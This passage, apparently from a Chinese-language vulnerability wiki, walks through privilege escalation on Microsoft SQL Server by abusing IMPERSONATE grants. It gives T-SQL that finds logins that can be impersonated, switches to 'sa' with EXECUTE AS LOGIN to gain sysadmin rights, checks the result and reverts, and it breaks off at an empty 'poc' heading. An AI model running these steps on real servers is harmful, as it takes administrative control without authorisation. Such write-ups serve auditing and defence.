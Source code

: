     SELECT distinct b.name
    FROM sys.server_permissions a
    INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
    WHERE a.permission_name = 'IMPERSONATE'

![4.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId29.png)

这里我们可以看到MyUser1用户可以模拟登录sa,MyUser2,MyUser2用户，接下来就是模拟登录sa来获取sysadmin权限了

#### 4.模拟SQL Server用户登陆

    -- 验证是否为sysadmin权限
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')
    -- 模拟sa登录
    EXECUTE AS LOGIN = 'sa'
    -- 验证是否为sysadmin权限
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')

![5.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId31.png)

可以看到，第二个查询之后我们已经是sysadmin的权限了

我们再用查看登录用户来验证下

    SELECT * FROM master.sys.sysusers
    WHERE islogin = 1

模拟sa登录之前

![6.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId32.png)

模拟sa登录之后

![7.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId33.png)

权限高了，可以看到更多的用户登录

#### 5.回到原来的登录

    REVERT
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')

![8.png](/Users/aresx/Documents/VulWiki/.resource/Mssql模拟登录提权/media/rId35.png)

这样我们又回到myuser1用户登录的会话了

0x03 工具化
-----------

> 当然这个也可以用powershell一键实现

### poc
